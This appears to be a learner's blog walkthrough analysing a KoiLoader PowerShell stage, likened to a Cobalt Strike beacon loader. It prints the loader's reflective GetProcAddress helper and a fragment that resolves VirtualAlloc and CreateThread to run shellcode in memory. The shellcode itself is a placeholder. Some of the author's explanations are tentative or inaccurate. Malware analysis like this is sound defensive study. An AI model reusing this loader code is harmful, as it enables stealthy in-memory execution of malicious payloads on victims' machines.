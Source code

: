 ##### Function GPA
```powershell
$SystemAssembly = [AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
$UnsafeNativeMethods = $SystemAssembly.GetType('Microsoft.Win32.UnsafeNativeMethods')
$GetModuleHandle = $UnsafeNativeMethods.GetMethod('GetModuleHandle')
$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null)
$Kern32Handle = $GetModuleHandle.Invoke($null, @($Module))
$tmpPtr = New-Object IntPtr
$HandleRef = New-Object System.Runtime.InteropServices.HandleRef($tmpPtr, $Kern32Handle)
        
Write-Output $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$HandleRef, $Procedure))
```
This one is more easier to understand for someone unfamiliar as me. 
As I can tell from it's execution rather than create assumptions. 
1. `$SystemAssembly` returns path to System.dll.


And boom while searching for explanation of `system.dll unsafenativemethods`, by accident I found similar code related to CobaltStrike beacon.
![Desktop View](imges/2025-08-01-KoiLoader/Pasted image 20250726192507.png)
Source: https://medium.com/@polygonben/deobfuscating-a-powershell-cobalt-strike-beacon-loader-c650df862c34
The code is pretty much the same, or accomplishes the same task. It is slighlty changed, the structure, variables (obviously) but it's mostly the same.
I'm still experimenting with how should I write this walkthrough, but I might adapt the way of explaining snippets of code as a comments under just like the Ben Folland, author of the article in link above.

Functions used in GPA are "official" I will try to explain them in my way as I understand them, but feel free to check the official documentation for clarification. I hope I won't misinterpret anything or just don't write it down wrong which would change how the function might work, but well I'm still learning ;D
However they might be slightly altered, or it's just the obfuscated way of how are they written here.
2. `$UnsafeNativeMethods` returns type of itself
3. `$GetModuleHandle` returns handle to specified process, the process has to be loaded in memory/address space of the calling process.
4. `$GetProcAddress` this one is easy, it returns address of the process :P However here as additional parameters 
5. `$Kern32Handle`


```powershell
$marshal = [System.Runtime.InteropServices.Marshal]

[Byte[]]$sc = ['som hex values, probably code readable in ascii']

$VAAddr = GPA kernel32.dll VirtualAlloc
$VADeleg = GDT @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$CTAddr = GPA kernel32.dll CreateThread
$CTDeleg = GDT @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr])
$CT = $marshal::GetDelegateForFunctionPointer($CTAddr, $CTDeleg)
$WFSOAddr = GPA kernel32.dll WaitForSingleObject
$WFSODeleg = GDT @([IntPtr], [Int32]) ([Int])
$WFSO = $marshal::GetDelegateForFunctionPointer($WFSOAddr, $WFSODeleg)

#System.Runtime.InteropServices.Marshal - it's a collection of methods for managing and interacting with memory 
```
Aaand as I was reading further I stumbled on this: https://github.com/PowerShellMafia/PowerSploit/issues/293

[^1]: An ActiveX object is an instance of a class that exposes properties, methods, and events to ActiveX clients. ActiveX objects support the COM. An ActiveX component is an application or library that is capable of creating one or more ActiveX objects.
[^2]: _Reference assemblies_``` are a special type of assembly that contain only the minimum amount of metadata required to represent the library's public API surface. [...] enables developers to build programs that target a specific library version without having the full implementation assembly for that version.```